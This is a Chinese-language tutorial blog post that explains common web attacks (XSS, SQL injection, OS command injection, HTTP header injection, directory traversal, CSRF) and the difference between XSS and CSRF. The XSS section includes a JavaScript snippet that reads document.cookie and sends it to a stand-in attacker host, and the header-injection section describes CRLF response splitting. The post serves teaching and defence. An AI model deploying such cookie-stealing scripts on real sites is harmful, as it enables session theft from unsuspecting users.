 ```yaml
---
title: HTTP指南-Web攻击技术
comments: true
top: false
date: 2019-05-28 15:32:08
categories: http
tags: http
img: https://qiniu1.lxfriday.xyz/WaterM/17a9f745-8a73-436b-ad64-8d40ffc032a4_timg.jpeg
---
```


## 1 前言
HTTP 就是一个通用的淡出协议机制。因此它具备较多优势，但在安全性方面则呈现劣势。

## 2 常见攻击类型
### 2.1 XSS （跨站脚本攻击）
**XSS 是指通过网站注册用户的浏览器内运行非法代码进行的一种攻击。**

动态创建的 HTML 部分有可能隐藏着安全漏洞。就这样，攻击者编写脚本设下陷阱，用户在自己的浏览器上运行时，一不小心就会受到被动攻击。

XSS 有可能造成以下影响：
- 利用虚假输入表单骗取用户个人信息；
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求；
- 显示伪造的文章或图片；

**XSS 案例**

<div class=img-center><img src="https://qiniu1.lxfriday.xyz/WaterM/fbc1a32b-6c06-41ea-8db8-955145508402_WX20190528-161142-xss1.png" alt="xss"><p class="img-desc">xss</p></div>

1. 通过地址栏中 URI 的查询字段指定 ID，相当于在表单内自动填写字符串的功能。而就在这个地方，隐藏着可执行跨站脚本攻击的漏洞。
    当用户在表单内输入 ID 和密码之后，就会直接发送到攻击者的网站，导致个人登录信息被窃取。
1. 对用户 Cookie 的窃取

```javascript
// <script src=http://abc.xyz/xss.js></script>
// 该文件包含以下代码

var content = escape(document.cookie);
document.write('<img src=http://abc.xyz/?');
document.write(content);
document.write('>');
```

在存在可进行 XSS 攻击的 Web 应用上执行上面的代码，即会将所处域名下的 Cookie 信息发送到攻击者服务器。

### 2.2 SQL 注入攻击
SQL 注入是指针对 Web 应用使用的数据库，通过运行非法的 SQL 而产生的攻击。该安全隐患有可能引发极大的威胁，有时会直接导致个人信息及机密信息的泄露。

### 2.3 OS 命令注入攻击
OS 命令注入攻击是指通过 Web 应用，执行非法的操作系统命令达到攻击的目的。只要在能调用 Shell 函数的地方就有存在被攻击的风险。

### 2.4 HTTP 首部注入攻击
HTTP 首部注入攻击是指攻击者通过在响应首部字段内插入换行，添加任意响应首部或主体的一种攻击。属于被动攻击模式。

%0D%0A 代表 HTTP报文中的换行符。

向首部主体内添加内容的攻击称为 HTTP 响应截断攻击（HTTP Response Splitting Attack）。

响应截断攻击是用在 HTTP首部注入的一种攻击。需要将两个 %0D%0A （即 %0D%0A%0D%0A）并排插入字符串后发送。利用这两个连续的换行就可作出 HTTP 首部与主体分隔所需的空行了，这样就能显示伪造的主体，达到攻击的目的。 

### 2.5 目录遍历攻击
目录遍历攻击是指对本无意公开的文件目录，通过非法阶段其目录路径，达成访问目的的一种攻击。这种攻击有时也成为路径遍历攻击。

固然存在输出值转义的问题，但更应该关闭对任意文件名的访问权限。

### 2.6 CSRF 攻击（跨站请求伪造）
CSRF (Cross-Site Request Forgeries) 攻击是指攻击者通过设置好的陷阱，强制对已完成认证的用户进行非预期的个人信息或设定信息等某些状态更新，属于被动攻击。

CSRF 可能会造成以下影响：
1. 利用已通过认证的用户权限更新设定信息等
1. 利用已通过认证的用户权限购买商品
1. 利用已通过认证的用户权限在留言板上发表言论

案例

<div class=img-center><img src="https://qiniu1.lxfriday.xyz/WaterM/079b56fe-669e-410f-8105-7190249bfe96_WX20190528-171238-csrf1.png" alt="csrf"><p class="img-desc">csrf</p></div>

### 2.7 XSS 和 CSRF 的区别
引用知乎 @黄玮 的话：

    XSS：用户过分信任网站，放任来自浏览器地址栏代表的那个网站代码在自己本地任意执行。如果没有浏览器的安全机制限制，xss代码可以在用户浏览器为所欲为；
    CSRF：网站过分信任用户，放任来自所谓通过访问控制机制的代表合法用户的请求执行网站的某个特定功能。

即：
- XSS 主要指问题代码被隐藏在客户端，用户在不知情的情况下执行了
- CSRF 主要指服务器接收到的通过校验的请求都是合法的操作






















